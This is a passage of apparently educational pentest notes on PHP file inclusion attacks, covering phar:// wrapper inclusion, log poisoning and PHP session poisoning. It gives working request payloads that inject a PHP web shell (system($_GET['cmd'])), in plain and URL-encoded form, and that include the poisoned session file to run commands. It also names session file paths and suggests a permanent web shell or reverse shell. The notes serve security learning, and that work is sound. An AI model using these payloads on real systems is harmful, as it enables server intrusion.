 ```
http://example.com/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
### Log Poisoning
We have seen in previous sections that if we include any file that contains PHP code, it will get executed, as long as the vulnerable function has the Execute privileges. The attacks we will discuss in this section all rely on the same concept: Writing PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

![image](https://user-images.githubusercontent.com/99975622/213595445-65074421-ba16-4f96-ae14-b97f6891f84a.png)

### PHP Session Poisoning
Most PHP web applications utilize PHPSESSID cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in session files on the back-end, and saved in /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows. The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix. For example, if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3.

We can see that the session file contains two values: page, which shows the selected language page, and preference, which shows the selected language. The preference value is not under our control, as we did not specify it anywhere and must be automatically specified. However, the page value is under our control, as we can control it through the ?language= parameter.


If the sessions is changable, we can do a session poisoning...
```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
If the language status changed;
```
http://example.com/index.php?language=<?php system($_GET["cmd"]);?>

Url encoding...
http://example.com/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

with that, we can get rce...
```
http://example.com/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.
This is because the injection is temporary...

### Server Log Poisoning
Both Apache and Nginx maintain various log files, such as access.log and error.log. The access.log file contains various information about all requests made to the server, including each request's User-Agent header. As we can control the User-Agent header in our requests, we can use it to poison the server logs as we did above.
